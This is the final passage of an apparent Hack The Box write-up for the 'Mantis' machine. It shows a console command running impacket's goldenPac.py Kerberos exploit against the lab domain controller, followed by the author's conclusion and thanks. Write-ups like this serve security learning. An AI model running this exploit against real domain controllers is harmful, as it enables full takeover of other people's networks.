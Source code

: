 Now run the exploit.
```console
root@EdgeOfNight:~/Documents/Github/impacket/examples# python goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
```
<img src="/assets/img/blog/htb-mantis/htb-mantis-11.png">

***
## Congratulations!
***

# Conclusion
An amazing box! Would rate it as one of the better ones for sure. I've definitely learnt a lot while working on this masterpiece. To conclude, I'd love to thank [bitvijays](https://twitter.com/bitvijays) for helping me when I got stuck on the **goldenPac** part. 

~V3
